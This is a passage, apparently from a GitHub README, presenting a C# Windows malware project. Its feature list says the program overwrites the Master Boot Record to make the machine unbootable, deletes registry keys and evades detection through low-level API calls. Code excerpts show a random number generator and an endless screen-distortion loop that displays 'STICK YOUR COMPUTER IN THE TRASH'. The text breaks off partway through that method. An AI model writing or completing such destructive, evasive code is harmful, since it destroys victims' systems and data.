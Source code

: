 3. **System Manipulation** 💻:
   - Overwrites the Master Boot Record (MBR) with random data, rendering the system unbootable.
   - Deletes registry keys, potentially causing system instability.

4. **Multi-threaded Execution** 🧵:
   - Runs multiple threads simultaneously to create a chaotic and unpredictable environment.
   - Each thread performs a different set of operations, ensuring a wide range of effects.

5. **Stealthy Execution** 🕵️:
   - Utilizes low-level Windows API calls to avoid detection by standard monitoring tools.
   - Operates in the background with minimal user interaction.

---

## **Code Explanation** 📜

### **1. Random Number Generator** 🎲
The `RandomGenerator` function generates pseudo-random numbers using bitwise operations. It is used to create unpredictable patterns for graphical and audio effects.

```csharp
private static ulong seed1, seed2;
private static int RandomGenerator()
{
    seed1 = seed2;
    seed1 ^= 0x5a8279995a827999;
    seed1 ^= (seed1 << 7) | (seed1 >> 25);
    seed1 *= 0x9e3779b99e3779b9;
    seed2 = seed1;
    return (int)(seed1 & 0x7fffffff);
}
```

---

### **2. Graphical Effects** 🎨
The project includes several graphical effects, each implemented in a separate method. These effects manipulate the screen using Windows GDI functions like `BitBlt`, `StretchBlt`, and `TransparentBlt`.

#### **Example: MasonFarewell** 👋
This method displays a message ("STICK YOUR COMPUTER IN THE TRASH") in random locations on the screen while applying various graphical distortions.

```csharp
    public static void MasonFarewell()
    {
        int sw = GetSystemMetrics(SM_CXSCREEN);
        int sh = GetSystemMetrics(SM_CYSCREEN);
        IntPtr desk = GetDC(IntPtr.Zero);
        IntPtr desktopWindow = GetDesktopWindow();
        IntPtr hdcScreen = GetDC(IntPtr.Zero);
        Random random = new Random();
        int n = 10;
        Graphics graphics = Graphics.FromHdc(desk);
        graphics.TextRenderingHint = TextRenderingHint.AntiAliasGridFit;
        Font font = new Font("Impact", 70, FontStyle.Bold, GraphicsUnit.Point);
        string text = "STICK YOUR COMPUTER IN THE TRASH";
        while (true)
        {
            IntPtr hdc = GetDC(IntPtr.Zero);
            IntPtr hDc = GetWindowDC(desktopWindow);
            BitBlt(hdc, random.Next(sw), random.Next(sh), random.Next(sw), random.Next(sh), hdc, random.Next(sw), random.Next(sh), SRCCOPY);
            BitBlt(hdc, 10, random.Next(sh), sw, 96, hdc, 0, random.Next(sh), CUSTOM_ROP);
```
